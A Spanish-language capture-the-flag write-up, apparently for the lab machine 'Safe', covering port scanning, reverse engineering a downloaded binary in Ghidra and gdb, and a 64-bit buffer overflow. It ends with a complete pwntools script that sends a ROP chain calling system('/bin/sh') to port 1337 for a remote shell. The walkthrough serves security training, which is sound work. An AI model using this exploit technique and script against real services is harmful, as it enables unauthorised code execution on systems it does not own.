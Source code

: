 # Safe

### Tags
#### Buffer Overflow
#### Binary Exploitation

Empezamos lanzando nmap para ver que puertos y servicios que se están ejecutando.

![0](https://user-images.githubusercontent.com/50462944/174450002-4592b4e0-1b47-487e-95d7-a76c4e0b6a05.png)

Vemos que el puerto 80 y 1337 están abiertos.

Analizando la página se puede ver un comentario sobre el puerto 1337. 

![1](https://user-images.githubusercontent.com/50462944/174449826-9b702237-a914-4677-a066-f11224e3fc01.png)

Si accedemos a http://10.10.10.147/myapp, se descargará "myapp" que según el comentario se está ejecutando en ese puerto.


![2](https://user-images.githubusercontent.com/50462944/174450232-36dc8c6e-b2ec-4803-a879-e7eba0ce6010.png)

![3](https://user-images.githubusercontent.com/50462944/174449828-213d2e92-922f-4dc3-9496-b79cbcf842b1.png)

Viendo el servicio en 1337 y "myapp" podemos ver que es lo mismo.


![4](https://user-images.githubusercontent.com/50462944/174449829-80d951b4-d691-4329-aafb-27fced7f3a8a.png)

Analizando los strings legibles podemos ver que hay un /usr/bin/uptime y la pregunta que devuelve el programa.

Abrimos ghidra, y creamos un proyecto e importamos el archivo.

![s2](https://user-images.githubusercontent.com/50462944/174450325-c122d315-fef5-44ae-93b2-c38559494751.png)


![s4](https://user-images.githubusercontent.com/50462944/174449825-a44d5547-bd7e-4994-b4f7-92f6fb86f071.png)

Podemos ver una la función main, una variable local_78 con 112 bits, y una función a nivel de sistema.

Por lo que lo interesante sería poder cambiar el /usr/bin/uptime a un /bin/sh.

![6](https://user-images.githubusercontent.com/50462944/174449832-02c396f8-3dc8-479c-aa35-de1caedd6d0c.png)

Con gdb podemos ver las pilas.

![ksnip_20220618-161557](https://user-images.githubusercontent.com/50462944/174455304-4c4c91fb-402b-4be9-90e8-2786897e3e89.png)

Hacemos un breackpoint en la función main

![ksnip_20220618-152833](https://user-images.githubusercontent.com/50462944/174452172-8407bccd-b1b0-4658-a922-8db72cea2040.png)

Avanzamos en las pilas con "si" hasta system

![ksnip_20220618-152923](https://user-images.githubusercontent.com/50462944/174452229-eb448863-5294-43a9-83c5-ef4a58d762aa.png)

Se puede ver que el valor /usr/bin/uptime que es ejecutado a nivel de sistema está siendo guardado en la pila $rdi

![ksnip_20220618-153100](https://user-images.githubusercontent.com/50462944/174452266-ccb916ef-40de-4cda-9f84-b3fb9c87edb4.png)

```bash
~ python3 -c 'print("A"*120 + "B"*8 + "C"* 8)' # * 8 = x64 bits * 4 = x32 bits
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCC
```

Ahora podemos ver que $rsp puede ser cambiado 

![ksnip_20220618-152509](https://user-images.githubusercontent.com/50462944/174452383-5afba89a-3979-4e1f-8651-d7d6b7627d19.png)

Analizando la funcion test podemos ver "MOV     RDI, RSP" que significa que está moviendo los valores el $rsp al $rdi. Recordando que $rdi es lo que se ejecuta en system y $rsp es lo que podemos modificar.

![5](https://user-images.githubusercontent.com/50462944/174449816-a39c1be0-5b8c-43a6-9737-71165b201520.png)

Y obtenemos 0x401206 del "JUMP   r13", además tenemos en cuenta el R14 y el r15 por lo que en el payload lo haremos un null.

![ksnip_20220618-164803](https://user-images.githubusercontent.com/50462944/174455374-1ab2a865-9180-4a40-aa85-229d9e4304d4.png)

```bash
~ cat poc.py
from pwn import *

context(terminal=['tmux', 'new-window'])
context(os='linux', arch='amd64')

p = remote("10.10.10.147", 1337)

junk = b"A"*112
# Una vez pasadas las 112 "A" va a haber un desbordamiento. junk es el offset
# Le restamos 8 porque /bin/sh\x00 serian 8 caracteres
bin_sh = b"/bin/sh\x00"
# Y remplazamos en binario el $rdi 

#gef> ropper --search "pop r13"

pop_r13 = p64(0x401206)
null = p64(0x0)

# ~ objdump -D ./myapp | grep system

system_plt = p64(0x401040)

# ~ objdump -D ./myapp | grep test

test = p64(0x401152)

payload = junk + bin_sh + pop_r13 + system_plt + null + null + test

# junk: es el offset
# bin_sh: "/bin/sh"
# pop_r13: llamará a system_plt
# system_plt -> system()
# null y null es por = r13, r14 y 15

p.sendline(payload)
p.interactive()
```

Una vez lanzado el ataque obtenemos una bash.

![7](https://user-images.githubusercontent.com/50462944/174449830-73918c79-32f7-4b06-8eaa-1eb3f07c1f76.png)
